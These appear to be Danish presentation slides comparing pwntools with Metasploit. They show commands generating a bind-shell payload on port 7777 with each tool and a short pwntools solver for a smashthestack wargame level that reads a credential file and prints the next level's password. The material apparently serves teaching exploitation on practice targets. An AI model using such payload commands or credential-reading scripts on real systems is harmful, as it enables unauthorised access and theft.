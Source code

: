 pwntools - Hvorfor ikke Metasploit?
-----------------------------------

[source,sh]
------------------------------------------------
vagrant@localhost:~$ time shellcraft -f r amd64.linux.bindsh 7777 >/dev/null
 
 real    0m0.687s
 user    0m0.241s
 sys     0m0.320s
vagrant@localhost:~$ time msfvenom -p linux/x64/shell_bind_tcp LPORT=7777 >/dev/null 2>&1

 real    0m6.595s
 user    0m1.928s
 sys     0m4.146s
------------------------------------------------

pwntools - Hvorfor ikke Metasploit?
-----------------------------------

[source,sh]
------------------------------------------------
$ cat exploit.py 
#!/usr/bin/env python2

from pwn import *

r = ssh('level1', 'io.smashthestack.org', password = 'level1')
shell = r.shell()
shell.sendlineafter('$ ', '/levels/level01')
shell.sendlineafter(': ', '271')
shell.sendlineafter('$ ', 'cat /home/level2/.pass')
password = shell.recvuntil('$ ').split('\n')[1].strip()
shell.close()
shell.wait_for_close()
log.info('level2 users password: %s' % password)
$ ./exploit.py 
[+] Connecting to io.smashthestack.org on port 22: Done
[+] Opening new channel: None: Done
[*] Closed SSH channel with io.smashthestack.org
[*] level2 users password: XNWFtWKWHhaaXoKI
$
------------------------------------------------

pwntools - Hvorfor ikke Metasploit?
-----------------------------------

[source,sh]
------------------------------------------------
vagrant@localhost:~$ find .repositories/metasploit-framework/modules/exploits/linux -name '*.rb' | xargs wc -l | sort -nr | tail -n 1
    67 .repositories/metasploit-framework/modules/exploits/linux/http/peercast_url.rb
------------------------------------------------

pwntools
--------

Intro tid
